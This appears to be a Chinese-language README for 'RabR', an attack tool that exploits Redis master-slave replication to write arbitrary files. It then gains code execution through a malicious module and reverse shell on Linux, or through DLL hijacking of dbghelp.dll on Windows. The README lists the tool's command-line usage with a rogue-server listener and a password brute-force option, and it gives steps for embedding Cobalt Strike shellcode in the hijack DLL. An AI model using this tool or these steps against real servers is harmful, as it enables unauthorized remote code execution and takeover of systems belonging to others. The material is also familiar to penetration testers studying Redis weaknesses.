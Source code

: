 # RabR 

Redis-Attack By Replication (通过主从复制攻击Redis)   

- 攻击Linux下的Redis，可执行命令和反弹shell
- 攻击Window x64下的Redis，可...执行calc
本工具基于**Ridter**师傅的**[redis-rce](https://github.com/Ridter/redis-rce)** 进行修改。  

## 原理
Redis从2.8开始，就支持主从复制功能。     

这个功能存在脆弱的地方：主从复制中，Redis从机会将Redis主机的数据库文件同步到本地的数据库文件，并检验其是否为RDP格式，但如果不是RDP格式也不会删除。   
所以我们只要将主从复制传输中的数据库文件，替换为我们自己的数据，就可以将我们自己的数据原封不动的写入到redis从机的数据库文件中，而这个数据库文件的名字也可以通过Redis从机进行修改。  
**这就意味着我们可以将任意文件写入到目标Redis权限下的任意路径**。    

## 特点
- 本工具利用这个Redis的脆弱性，对Linux下的redis进行module攻击，对Windows下的Redis进行dll劫持攻击。  
- 本工具默认使用的恶意模块：exp.so，源码来自于：[**RedisModules-ExecuteCommand** ](https://github.com/puckiestyle/RedisModules-ExecuteCommand ), 该模块实现了执行单条命令和反弹shell的功能，你也可以编写自己的模块。  
- 本工具默认使用的恶意dll：dbghelp.dll，是通过 [**DLLHijacker** ](https://github.com/kiwings/DLLHijacker )+ **win7x64下的dbghelp.dll** 编译生成的，该dll会执行calc，你可以编译自己的dbghelp.dll。
- 本工具有爆破功能，密码字典位于pwd.txt中。  
- 本工具在攻击前会备份目标Redis的数据，在攻击结束后会进行恢复，使用的工具为[**redis-dump-go**](https://github.com/yannh/redis-dump-go )。默认是开启的，可以关闭。  

## 用法
```
usage: python redis-attack.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-wf WINFILE] [-lf LINUXFILE] [-a AUTH] [--brute] [-v]
Example: python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 --brute

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 16379
  -wf WINFILE, --winfile WINFILE
                        Dll Used to hijack redis, default dbghelp.dll
  -lf LINUXFILE, --linuxfile LINUXFILE
                        RedisModules to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  --brute               If redis needs to verify the password, perform a brute force attack base in pwd.txt
  -i, --idontcare       don't care about the data on the target redis
  -v, --verbose         show more info
```

![image-20210703203005715](phpto/RabR/image-20210703203005715.png)

![image-20210703202827200](phpto/RabR/image-20210703202827200.png)

## 进一步

攻击Windows x64下的redis：  
1）[DLLHijacker](https://github.com/kiwings/DLLHijacker) +目标redis的系统版本的dbghelp.dll， 生成vs项目。  
2）vs项目修改：   

```
1、将dllmain.cpp中 shellcode_calc[] 的值替换为cs生成的shellcode 
2、为了避免只能劫持1次dll，在dllmain.cpp的 Hijack();后增加 FreeLibrary(hModule);
3、修改活动解决方案为Realease，x64
4、修改项目属性的sdk版本、平台工具集为本地vs可用的值
```
3）编译生成dll，复制到本工具目录下。
4）使用本工具执行攻击 。  


## 感谢
本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！！非常感谢某群大佬分享的关键词(很重要)！！非常感谢！！
帮助到我的文章与工具包括但不限于：
 [Redis on Windows 出网利用探索](https://xz.aliyun.com/t/8153)
 [Redis On Windows -- Dll Hijack](https://jkme.github.io/redis-on-windows-dll-hijack.html)
 [DLLHijacker](https://github.com/kiwings/DLLHijacker)
 [redis-rce](https://github.com/Ridter/redis-rce)
 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile)
 [redis-dump-go](https://github.com/yannh/redis-dump-go)

反馈
---
Mail：h.vi@qq.com  
或者[issue](https://github.com/0671/MyCT/issues/new)、PR